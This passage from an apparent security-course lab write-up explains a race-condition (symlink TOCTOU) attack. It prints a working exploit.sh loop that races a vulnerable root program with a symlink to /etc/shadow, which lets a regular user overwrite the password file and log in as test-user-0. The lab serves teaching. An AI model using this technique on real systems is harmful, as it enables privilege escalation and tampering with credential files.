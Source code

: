 <img src="{{ site.baseurl }}/assets/images/lab2/19.png"  class="center_full no-invert"/>

## Login to target user account

### Task 11

`TASK :` Login to user account `test-user-0` with password `00000`
{:.task}

Now you can login to `test-user-0` account with <span style="color:#f77729;"><b>password</b></span>: `00000` instead of your originally set password:

<img src="{{ site.baseurl }}/assets/images/lab2/20.png"  class="center_full no-invert"/>

We have <span style="color:#f77729;"><b>successfully</b></span> changed a supposedly <span style="color:#f7007f;"><b>protected</b></span> `/etc/shadow` file while logged in as a <span style="color:#f77729;"><b>regular user</b></span> (ubuntu in the example above).

## What Happened?

Open `exploit.sh` file inside `/User/` directory:

```bash
#!/bin/sh
# exploit.sh

# note the backtick ` means assigning a command to a variable
OLDFILE=`ls -l /etc/shadow`
NEWFILE=`ls -l /etc/shadow`

# continue until THE ROOT_FILE.txt is changed
while [ "$OLDFILE" = "$NEWFILE" ]
do
    rm -f userfile.txt
    # create userfile again
    cp userfile_original.txt userfile.txt

    # the following is done simultanously
    # if a command is terminated by the control operator &, the shell executes the command in the background in a subshell.
    # the shell does not wait for the command to finish, and the return status is 0.
    # on the other hand, commands separated by a ; are executed sequentially; the shell waits for each command to terminate in turn.
    # the return status is the exit status of the last command executed.
    ../Root/vulnerable_root_prog userfile.txt test-user-0 & ln -sf /etc/shadow userfile.txt & NEWFILE=`ls -l /etc/shadow`

done

echo "SUCCESS! The root file has been changed"
```
